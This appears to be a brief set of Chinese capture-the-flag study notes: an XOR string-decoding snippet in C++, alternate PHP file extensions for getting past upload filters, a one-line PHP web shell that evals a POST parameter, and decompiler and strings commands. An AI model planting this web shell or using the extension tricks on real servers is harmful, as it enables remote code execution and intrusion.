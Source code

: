 ##  将整数强制拆分为 string
```cpp
#include<cstdio>
#include<cstring>
#include<string>
using namespace std;
int main(){
	long long v7=28537194573619560;
	char *p=(char *)&v7;//chr指针
	char str[30];
	strcpy(str,":\"AL_RT^L*.?+6/46");
	for(int i=0;i<19;i++){
		str[i]=p[i%7]^str[i];
		printf("%c",str[i]);
	}
	return 0;
}
```
-----

## php 文件别名
php2, php3, php4, php5, phps, pht, phtm, phtml
## 一句话木马
```php
<?php @eval($_POST['chopper']);?>
```
## uncompyle2 用法
```bash
py -2 uncompyle2 -o as.py as.pyc
```
## Strings 用法
`strings brave | grep -i key #-i 忽略大小写`
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIwMTExNzA4ODEsMTYwNjI4NDI1LC0xND
EwNjg2NjM3LDMzNTU4MDgwOF19
-->